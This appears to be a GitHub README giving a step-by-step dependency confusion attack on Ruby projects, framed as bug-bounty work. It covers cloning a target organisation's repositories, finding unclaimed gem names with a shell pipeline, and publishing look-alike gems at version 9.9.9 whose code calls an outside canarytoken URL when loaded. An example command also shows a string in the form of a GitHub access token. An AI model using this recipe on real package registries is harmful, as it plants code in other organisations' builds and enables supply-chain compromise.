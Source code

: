 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/0b65137c-72e8-4003-b4b1-265cd25a37bd"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
```bash
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | grep gem | cut -d "'" -f2 | sort -u | tr -d "'" | tr -d "," |  xargs -n1 -I{} echo "https://rubygems.org/gems/{}" |  httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    
    ```bash
    Gem::Specification.new do |s|
      s.name        = "<package_name>"
      s.version     = "9.9.9"
      s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
      s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
      s.authors     = ["<Anindya Ghoshal>"]
      s.email       = "<techghoshal@gmail.com>"
      s.files       = ["lib/<package_name>.rb"]
      s.homepage    =
        "https://rubygems.org/gems/<package_name>"
      s.license       = "MIT"
   end
   ```
 - Save this file
 
 ```bash
 $ cd lib
 ```
 - Replaced -
    
    ```bash
    module Techghoshal
       require 'net/http'
       result = Net::HTTP.get(URI.parse('<canarytokens_url>'))
    end
    ```
 - Save this file  
 
 ```bash
 $ cd ..
 ```
 ```bash
 $ gem build <package_name>.gemspec
 ```
- Upload file publicly (https://rubygems.org/)

- Create Accont on rubygems.org
    
 ```bash
 $ gem push <package_name>-9.9.9.gem 
 ```
- Enter your Email: `<email>`
- Enter your username: `<username>`
- Enter your password: `<password>`
    
---
    
<b>Upload IS DONE</b> 😎 
- Must be checking - https://rubygems.org/gems/package_name
- 🎉 Now Bounty Time 💰💰
 
## Connect me
If you have any queries & how can more improve this repository, you can always contact me on  <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>
    
    
